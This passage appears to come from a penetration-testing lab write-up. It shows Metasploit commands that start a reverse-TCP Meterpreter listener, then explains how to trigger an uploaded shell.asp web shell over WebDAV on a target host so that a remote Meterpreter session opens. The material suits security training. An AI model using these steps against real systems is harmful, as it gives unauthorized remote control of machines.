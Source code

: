 ```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.80.4
set LPORT 1234
run
```

- The listener (reverse TCP handler) starts listening and waits for a connection from the actual `shell.asp` payload

![Metasploit handler](windows-attacksassets/image-20230310160648091.png)

- Open the `http://10.4.18.218/webdav` link in the browser and click on `shell.asp` file
- The **Meterpreter** session will be opened
